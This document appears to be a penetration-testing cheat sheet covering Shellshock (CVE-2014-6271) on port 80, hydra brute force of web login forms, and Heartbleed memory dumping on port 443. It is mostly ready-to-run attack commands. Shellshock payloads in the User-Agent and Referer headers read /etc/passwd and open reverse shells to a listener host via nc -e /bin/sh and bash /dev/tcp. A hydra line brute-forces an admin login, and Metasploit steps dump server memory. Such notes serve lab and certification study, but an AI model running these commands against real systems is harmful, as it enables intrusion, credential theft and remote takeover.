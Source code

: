 

## Shellshock port 80

**CVE-2014-6271**
https://cdn.members.elearnsecurity.com/ptp_v5/section_4/module_3/html/index.html
`env x=‘() { :;}; echo vulnerable’ bash -c “echo this is a test”`
`./dirsearch.py -u http://192.168.13.29/ -e cgi -r`

nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi 192.168.13.29 -p 80
nmap 10.11.1.71 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi
./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
ssh -i noob noob@$ip '() { :;}; /bin/bash'

wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://192.168.13.29/cgi-bin/login.cgi && cat login.cgi
wget -U "() { foo;};echo; /bin/nc 192.168.13.18 1234 -e /bin/sh" http://192.168.13.29/cgi-bin/login.cgi
wget -U "() { foo;};echo; /bin/nc 192.168.13.18 1234 -e /bin/sh" http://192.168.13.29/cgi-bin/login.cgi

wget -qO- -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" -e use_proxy=yes -e http_proxy=192.168.57.101:3128 http://127.0.0.1/cgi-bin/status

curl -v --proxy 192.168.56.106:3128 http://192.168.56.106/cgi-bin/status -H "Referer: () { test;}; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id; exit"
curl -v --proxy 192.168.56.106:3128 http://192.168.56.106/cgi-bin/status -H "Referer: () { test;}; echo 'Content-Type: text/plain'; echo; echo; /bin/bash -i >& /dev/tcp/192.168.56.102/4445 0>&1"

**Reverse shell**
`curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/10.11.0.192/443 0>&1; echo zzzz;'"   http://10.11.1.71/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'`



## HTTP bruteforce (forms)

`hydra -l admin -P /root/ctf_wordlist.txt domain.com http-post-form "/admin.php:u=^USER^&p=^PASS^&f=login:'Enter your username and password to continue'" -V`



# HTTPS - 443

Heartbleed / CRIME / Other similar attacks
Read the actual SSL CERT to:find out potential correct vhost to GET
is the clock skewed
any names that could be usernames for bruteforce/guessing.

Module used to dump encrypted memory contents from an ssl host.
`msf > auxiliary/scanner/ssl/openssl_heartbleed`

## Heartbleed port-443
**OpenSSL versions 1.0.1 through 1.0.1f**
`nmap --script ssl-heartbleed 192.168.13.58 -p 443 -sV`
`msf > use auxiliary/scanner/ssl/openssl_heartbleed`
`msf > auxiliary(scanner/ssl/openssl_heartbleed) -> show actions`
`set action DUMP`
`strings <downloaded file>`
